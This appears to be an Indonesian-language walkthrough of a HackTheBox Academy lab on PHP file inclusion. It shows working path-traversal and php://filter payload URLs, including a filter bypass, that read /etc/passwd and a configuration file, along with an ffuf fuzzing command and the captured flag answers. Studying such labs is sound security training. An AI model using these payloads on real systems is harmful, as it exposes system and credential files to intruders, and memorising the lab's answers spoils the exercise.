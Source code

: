 # File Inclusion
- Link modul: https://academy.hackthebox.com/module/details/23

## Local File Inclusion (LFI)
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%202.JPG)

- **Question:** Using the file inclusion find the name of a user on the system that starts with "b".
- Vunerability berada di URL `http://ip:port/index.php?language=en.php`

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%203.JPG)

- Selanjutnya kita ganti nilai parameter `language` dengan payload file inclusion untuk membaca file `/etc/passwd`
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../etc/passwd
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%204.JPG)

- Ditemukan nama user barry pada file `/etc/passwd`

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%205.JPG)

- **Answer**
```sh
barry
```

- **Question:** Submit the contents of the flag.txt file located in the /usr/share/flags directory.
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../usr/share/flags/flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%206.JPG)

- **Answer**
```sh
HTB{n3v3r_tru$t_u$3r_!nput}
```

## Basic Bypasses
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%208.JPG)

- **Question:** The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt
- Akses URL berikut di browser untuk mengecek vulnerability file inclusion pada web target
```sh
http://ip:port/index.php?language=languages//....//....//....//....//etc/passwd
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%209.JPG)

- Akses URL berikut di browser untuk membaca flag
```sh
http://ip:port/index.php?language=languages//....//....//....//....//flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2010.JPG)

- **Answer**
```sh
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
```

## PHP Filters
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2012.JPG)

- **Question:**  Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer
- Pada task ini kita akan menggunakan wordlists dari seclists. Wordlists ini secara default belum tersedia di kali linux, jadi anda perlu menginstalasi terlebih dahulu dengan perintah sebagai berikut
```sh
sudo apt install seclists
```
- Jalankan tool `ffuf` untuk menemukan halaman yang mengandung script PHP
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:45986/FUZZ -e .php -c -ic
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2013.JPG)

- Ditemukan script `configure.php` pada hasil fuzzing diatas

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2014.JPG)

- Akses URL sebagai berikut pada browser untuk membuka isi file tersebut
```sh
http://ip:port/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2015.JPG)

- Terdapat code base64 pada halaman diatas, tekan `Ctrl+U` agar kita bisa mengcopy code base64 tersebut secara full

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2016.JPG)

- Decode code base64 diatas lewat terminal
```sh
echo 'code base64' | base64 -d
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2017.JPG)

- **Answer**
```sh
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}
```
